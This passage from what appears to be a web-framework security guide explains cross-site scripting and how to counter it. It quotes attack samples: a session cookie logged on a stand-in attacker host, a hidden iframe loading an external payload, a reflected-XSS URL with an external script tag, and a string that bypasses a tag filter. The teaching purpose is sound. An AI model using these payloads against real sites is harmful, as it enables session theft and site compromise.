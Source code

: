 The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that `document.cookie` may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly), though.

##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers web site to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This `iframe` is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire web site or display a login form, which looks the same as the site's original, but transmits the user name and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake web site.

Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Countermeasures

_It is very important to filter malicious input, but it is also important to escape the output of the web application_.

Especially for XSS, it is important to do _permitted input filtering instead of restricted_. Permitted list filtering states the values allowed as opposed to the values not allowed. Restricted lists are never complete.

Imagine a restricted list deletes `"script"` from the user input. Now the attacker injects `"<scrscriptipt>"`, and after the filter, `"<script>"` remains. Earlier versions of Rails used a restricted list approach for the `strip_tags()`, `strip_links()` and `sanitize()` method. So this kind of injection was possible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

